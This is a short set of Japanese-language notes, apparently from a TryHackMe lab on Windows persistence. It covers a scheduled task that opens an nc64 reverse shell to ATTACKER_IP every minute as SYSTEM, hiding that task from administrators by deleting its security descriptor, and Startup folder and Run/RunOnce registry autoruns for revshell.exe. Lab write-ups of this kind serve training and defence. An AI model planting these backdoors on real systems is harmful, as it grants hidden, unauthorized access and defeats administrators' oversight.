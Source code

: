 ## タスクスケジューラ

```ps
# タスクの作成（1分ごとに起動する設定）
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM

# 正常に作成されたか確認
schtasks /query /tn thm-taskbackdoor
```

### セキュリティ記述子の削除

System 権限で PsExec を開く

```shell
PsExec64.exe -s -i regedit
```

```text
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\

タスクの SD値 をDeleteする。
```

これで、管理者含め全てのユーザーからタスクが見えなくなる。

## ログオントリガー

### スタートアップ

```text
# ユーザーごと
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

# 全ユーザー
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

### 実行／一度だけ実行

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

（名前）任意
（Type）REG_EXPAND_SZ
（Data）c:\Windows\revshell.exe
```

### Winlogon
